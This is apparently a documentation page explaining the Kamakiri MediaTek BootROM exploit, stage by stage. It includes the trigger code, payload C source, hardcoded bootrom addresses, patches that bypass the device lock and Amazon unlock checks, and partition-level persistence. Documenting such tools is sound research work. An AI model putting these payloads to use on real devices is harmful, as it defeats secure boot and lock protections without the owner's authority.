

## Exploit Architecture

Kamakiri exploits a vulnerability in MediaTek's bootrom (BootROM) to gain arbitrary code execution before secure boot verification. The exploit uses a multi-stage payload architecture to progressively gain control of the device.

## Memory Layout

The exploit operates within specific memory regions of the MediaTek SoC:

```
0x00000000 - 0x00020000  │ BootROM (read-only)
0x00100000 - 0x00120000  │ Internal SRAM (bootrom stack/heap)
0x10007000 - 0x10007100  │ Watchdog Timer registers
0x10210000              │ Crypto/SEJ hardware
0x11003000              │ UART0 registers
0x40001000              │ Stage 1 payload load address
0x41E00000              │ LK base address (LK_BASE)
0x45000000              │ Temporary buffer space
```

## Exploit Stages

<Steps>

### Stage 0: BootROM Exploit

The exploit begins by communicating with the device in BootROM mode over USB. The device exposes a download protocol when powered on with specific hardware shorts.

**Key Functions Used:**
- `handshake()` - Establishes communication with bootrom (`modules/common.py:113-127`)
- `read32()` / `write32()` - Primitives for memory access (`modules/common.py:139-186`)
- `send_da()` / `jump_da()` - Download agent functions (`modules/common.py:329-349`)

**Exploit Trigger:**

The vulnerability is triggered through a specific sequence:

```python
# From modules/load_payload.py:70-80
addr = 0x10007050
result = dev.read32(addr)
dev.write32(addr, [0xA1000])  # Trigger the vulnerability
result = dev.read32(addr)

readl = 0x24
result = dev.read32(addr - 0x20, readl//4)
dev.write32(addr, 0)

attempt2(d)  # Load stage 1 payload
```

This writes to watchdog registers and exploits a USB control transfer to inject stage 1.

### Stage 1: Initial Payload (stage1.bin)

**Location:** `brom-payload/stage1/`  
**Load Address:** `0x100000` (via USB exploit)  
**Size Limit:** `0xA00` bytes (2,560 bytes)

**Capabilities:**

Stage 1 establishes a custom protocol for memory operations:

```c
// From brom-payload/stage1.c:14-85
int main() {
    print("Entered 1ST stage payload\n");
    
    // Send USB response to prevent timeout
    send_usb_response(0,0,1);
    
    // Signal ready
    send_dword(0xA1A2A3A4);
    
    while (1) {
        uint32_t magic = recv_dword();
        if (magic != 0xf00dd00d) break;
        
        uint32_t cmd = recv_dword();
        switch (cmd) {
        case 0x4000:  // Write memory
            address = recv_dword();
            size = recv_dword();
            recv_data(address, size, 0);
            send_dword(0xD0D0D0D0);  // Success
            break;
            
        case 0x4001:  // Jump to address
            jump_address = recv_dword();
            jump_address();
            break;
            
        case 0x3000:  // Reboot
            volatile uint32_t *reg = (volatile uint32_t *)0x10007000;
            reg[8/4] = 0x1971;
            reg[0/4] = 0x22000014;
            reg[0x14/4] = 0x1209;
            break;
            
        case 0x3001:  // Kick watchdog
            volatile uint32_t *reg = (volatile uint32_t *)0x10007000;
            reg[8/4] = 0x1971;
            break;
        }
    }
}
```

**BootROM Function Pointers:**

Stage 1 reuses bootrom functions for USB communication:

```c
// From brom-payload/brom_common.c:1-11
void (*send_usb_response)(int, int, int) = (void*)0x55bb;
int (*send_dword)() = (void*)0xBE09;
int (*recv_dword)() = (void*)0xBDD5;
int (*send_data)() = (void*)0xBED1;
int (*recv_data)() = (void*)0xBE4B;
```

These are hardcoded addresses of functions in the MediaTek bootrom.

### Stage 2: Full eMMC Access (stage2.bin)

**Location:** `brom-payload/stage2/`  
**Load Address:** `0x201000`  
**Size:** ~40KB

**Loading Process:**

```python
# From modules/load_payload.py:104-138
log("Load 2nd stage payload")
stage2 = load_payload_file("../brom-payload/stage2/stage2.bin")

# Send via stage 1 protocol
d.write(p32(0xf00dd00d))  # Magic
d.write(p32(0x4000))      # Write command
d.write(p32(0x201000))    # Target address
d.write(p32(len(stage2))) # Size
d.write(stage2)           # Data

code = d.read(4)
if code != b"\xd0\xd0\xd0\xd0":
    raise RuntimeError("device failure")

# Jump to stage 2
d.write(p32(0xf00dd00d))  # Magic
d.write(p32(0x4001))      # Jump command
d.write(p32(0x201000))    # Address
```

**Stage 2 Initialization:**

```c
// From brom-payload/stage2.c:4-14
int main() {
    printf("Entered 2ND stage payload\n");
    
    struct msdc_host host = { 0 };
    host.ocr_avail = MSDC_OCR_AVAIL;
    
    mmc_init(&host);  // Initialize eMMC controller
    
    command_loop(&host);  // Enter command loop
}
```

Stage 2 initializes the eMMC (MultiMediaCard) controller and provides full read/write access to the device's storage.

### Stage 3: Microloader

**Location:** `microloader/`  
**Installation:** Injected into boot partition header  
**Load Address:** Executed by legitimate bootloader

**Purpose:**

The microloader is injected into the boot partition's first 0x400 bytes, replacing the Android boot image header. When the device boots normally, it:

```c
// From microloader/main.c:31-51
int main() {
    puts("microloader");
    
    struct device_t *dev = (void*)get_device();
    
    uint32_t *dst = (void*)PAYLOAD_DST;
    // Read LK payload from boot0 partition
    size_t ret = dev->read(dev, PAYLOAD_SRC, dst, PAYLOAD_SIZE, BOOT0_PART);
    
    // Check if valid payload
    if(*dst != 0xe3a0d442) {
        puts("Try backup");
        ret = dev->read(dev, BACKUP_SRC, dst, PAYLOAD_SIZE, BOOT0_PART);
    }
    
    cache_clean(dst, PAYLOAD_SIZE);
    
    // Jump to the payload
    void (*jump)(void) = (void*)dst;
    puts("Jump");
    jump();
}
```

### Stage 4: LK Payload (Little Kernel Payload)

**Location:** `lk-payload/`  
**Load Address:** Loaded by microloader  
**Size:** ~512KB stored in boot0 partition

**Capabilities:**

The LK payload runs in the Little Kernel (LK) bootloader context with full system access:

```c
// From lk-payload/main.c:81-103
int main() {
    printf("This is LK-payload for mantis by xyz and k4y0z. Copyright 2019\n");
    
    boot_reason = (uint32_t *)(*(uint32_t *)(0x41E5D904) + 272);
    y_cable = (uint8_t *)(*(uint32_t *)(0x41E5D904) + 365);
    
    printf("boot_reason: %u\n", *boot_reason);
    printf("y_cable: %u\n", *y_cable);
    
    parse_gpt();  // Parse GPT partition table
    
    struct device_t *dev = get_device();
    
    // Restore LK memory overwritten by microloader
    dev->read(dev, g_lk * 0x200 + 0x200 + 0x200, 
              (char*)LK_BASE + 0x200, 0x1000, USER_PART);
    
    // Check and copy backup payload if needed
    dev->read(dev, BACKUP_SRC, (void*)0x45000000, PAYLOAD_SIZE, BOOT0_PART);
    if (memcmp((void*)PAYLOAD_DST, (void*)0x45000000, PAYLOAD_SIZE)) {
        printf("Backup payload not found...\n");
        printf("...copy payload to backup location\n");
        dev->write(dev, (void*)PAYLOAD_DST, BACKUP_SRC, PAYLOAD_SIZE, BOOT0_PART);
    }
}
```

**Boot Behavior Modification:**

The LK payload intercepts boot image reads to implement custom boot logic:

```c
// From lk-payload/main.c:32-54
size_t read_func(struct device_t *dev, uint64_t block_off, 
                 void *dst, uint32_t sz, uint32_t part) {
    printf("read_func hook\n");
    
    if (block_off == g_boot * 0x200 || block_off == g_recovery * 0x200) {
        printf("demangle boot image - from 0x%08X\n", 
               __builtin_return_address(0));
        
        // Boot into recovery if Y-cable detected
        if (block_off == g_boot * 0x200 && *y_cable == 1 
            && !boot_system && *boot_reason == 0) {
            printf("Boot into recovery to display bootmenu");
            block_off = g_recovery * 0x200;
        }
        
        // Skip first 0x400 bytes (microloader)
        if (sz < 0x400) {
            ret = original_read(dev, block_off + 0x400, dst, sz, part);
        } else {
            void *second_copy = (char*)dst + 0x400;
            ret = original_read(dev, block_off, dst, sz, part);
            memcpy(dst, second_copy, 0x400);
            memset(second_copy, 0, 0x400);
        }
    }
    return ret;
}
```

**Security Bypasses:**

```c
// From lk-payload/main.c:192-225
// Bypass device lock check
patch = (void*)0x41E01D34;
*patch++ = 0x2001; // movs r0, #1
*patch = 0x4770;   // bx lr

// Bypass Amazon verify_unlock (enable all fastboot commands)
patch = (void*)0x41E01EA0;
*patch++ = 0x2000; // movs r0, #0
*patch = 0x4770;   // bx lr

// Hook bootimg read function
original_read = (void*)dev->read;
patch32 = (void*)&dev->read;
*patch32 = (uint32_t)read_func;
```

</Steps>

## Communication Protocol

All stages after stage 1 use a common protocol:

```
┌─────────────┬─────────────┬──────────────────┐
│  Magic      │  Command    │  Parameters      │
│  0xf00dd00d │  uint32     │  Command-specific│
└─────────────┴─────────────┴──────────────────┘
```

**Success Response:** `0xD0D0D0D0`  
**Failure Response:** `0xF0F0F0F0`

<Note>
The protocol uses big-endian byte order for all multi-byte values.
</Note>

## Data Flow Diagram



## Persistence Mechanism

Kamakiri achieves persistence by modifying multiple partitions:

1. **boot0 partition** - Contains LK payload (offset 1024) and backup (BACKUP_SRC)
2. **boot partition** - First 0x400 bytes replaced with microloader
3. **lk partition** - Downgraded to vulnerable version
4. **tee1 partition** - Downgraded TrustZone image
5. **MISC partition** - Boot flags (FASTBOOT_PLEASE, boot-recovery, etc.)

<Warning>
The exploit requires physical access to the device and hardware shorts to enter bootrom mode initially. Once installed, the payload persists across reboots.
</Warning>

## Technical Details

### Watchdog Management

All stages must periodically kick the watchdog to prevent automatic reboot:

```c
// From brom-payload/stage1.c:69-72
case 0x3001: {  // Kick watchdog
    volatile uint32_t *reg = (volatile uint32_t *)0x10007000;
    reg[8/4] = 0x1971;  // Magic unlock value
    break;
}
```

### UART Output

All payloads can output debug information via UART0:

```c
// From microloader/main.c:6-14
void low_uart_put(int ch) {
    volatile uint32_t *uart_reg0 = (volatile uint32_t*)0x11003014;
    volatile uint32_t *uart_reg1 = (volatile uint32_t*)0x11003000;
    
    while ( !((*uart_reg0) & 0x20) )
    {}
    
    *uart_reg1 = ch;
}
```

Connect to UART at 115200 baud to see payload execution messages.

## Next Steps

<CardGroup cols={2}>
  <Card title="Payload Stages" icon="layer-group" href="/advanced/payload-stages">
    Detailed breakdown of each payload stage
  </Card>
  <Card title="eMMC Operations" icon="database" href="/advanced/emmc-operations">
    Complete eMMC protocol reference
  </Card>
</CardGroup>